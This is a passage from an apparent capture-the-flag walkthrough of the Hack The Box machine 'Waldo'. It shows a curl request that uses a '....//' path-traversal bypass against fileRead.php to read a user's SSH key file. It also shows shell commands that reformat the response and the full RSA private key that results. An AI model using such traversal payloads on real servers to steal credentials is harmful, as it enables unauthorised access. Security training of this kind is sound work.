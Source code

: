 The format however is not going to work with a copypaste, and the 'beautifier' extension is of no real help.

I right-click the POST requset side of the `repeater` and copy the request as a curl command.

```

curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.10.87' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://10.10.10.87/list.html' -H $'Content-type: application/x-www-form-urlencoded' -H $'Content-Length: 49' -H $'Connection: close' \
    --data-binary $'file=/....//....//....//home/nobody/.ssh/.monitor\x0d\x0a\x0d\x0a\x0d\x0a\x0d\x0a\x0d\x0a\x0d\x0a\x0d\x0a' \
    $'http://10.10.10.87/fileRead.php'

```

I copy the response minus the headers to a file `id_rsa`

Using `cut` and `sed` I can format this file properly...

It took a while of playing around to get it right...I checked my progress by using the `tee` command
which prints to stdout as well as to file.


```

cat id_rsa | cut -d "\"" -f 4 | sed 's/\\n/\n/g' | sed 's/\\//g' |tee rsa_key

```

Finally got the right format.


```

root@kali:~/HTB/retired/waldo# cat rsa_key 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----

```
